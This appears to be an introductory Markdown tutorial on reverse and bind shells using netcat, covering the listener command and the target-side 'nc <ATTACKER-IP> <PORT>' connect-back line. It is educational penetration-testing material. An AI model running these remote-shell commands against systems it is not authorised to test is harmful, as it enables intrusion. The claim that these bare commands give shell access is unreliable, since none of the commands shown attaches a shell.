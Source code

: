 ```yaml
---
title: Reverse shells and bind shells
description: An introduction to reverse shells and bind shells using netcat.
tags: [cybersecurity, linux]
---
```


Reverse shells and bind shells are types of network connections used in hacking and penetration testing.

A reverse shell is when the attacker makes a target computer connect back their own computer, where they can then control the target's shell. To do this, the attacker uses special tools to set up a 'listener' on the attacking computer, which waits for the target to connect.

In contrast, a bind shell is when a attacker makes the target computer run a 'listener' directly, that allows the attacker to connect and control it.

A reverse or bind shell is usually established after a target computer has been exploited. In this article we will not be discussing how to exploit a target, but we will be covering how to establish a reverse or bind shell using a tool called netcat.

## Netcat

Netcat is a command-line tool used for network communication. It can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system.

One of netcat's main advantages is its wide availability. Netcat is preinstalled on many Linux distributions, and it can be also installed on Windows.

When establishing a **reverse shell**, we need to start a listener on the attacking computer, and then connect to it from the target computer.

We can set up the listener on the attacking computer with `nc -lvnp <PORT>`, e.g. `nc -lvnp 4444`.

The `-lvnp 4444` options are:

- `l` = listen mode
- `v` = verbose mode
- `n` = numeric only (IP address), don't use DNS
- `p 4444` = listen on port `4444`

Now, we need connect to the listener from the target computer. To do this, we use `nc <ATTACKER-IP> <PORT>`, e.g. `nc 10.10.20.20 4444` if the attacker's IP is `10.10.20.20` and the attacker is listening on port `4444`.

Once the connection is established, we will be able to send shell commands to the target's shell from the attacker's computer! 🎉

When establishing a **bind shell**, we need to start a listener on the target computer, and then connect to it from the attacking computer.

Set up the the listener on the target computer with `nc -lvnp <PORT>`, and then connect to the listener from the attacking computer with `nc <TARGET-IP> <PORT>`.

When setting up reverse and binding shells, keep in mind:

- The port on the listener can be blocked by firewalls, so be sure to find a port that is open.
- Administrative permissions (i.e. `sudo`) are needed when listening on a port below `1024`.
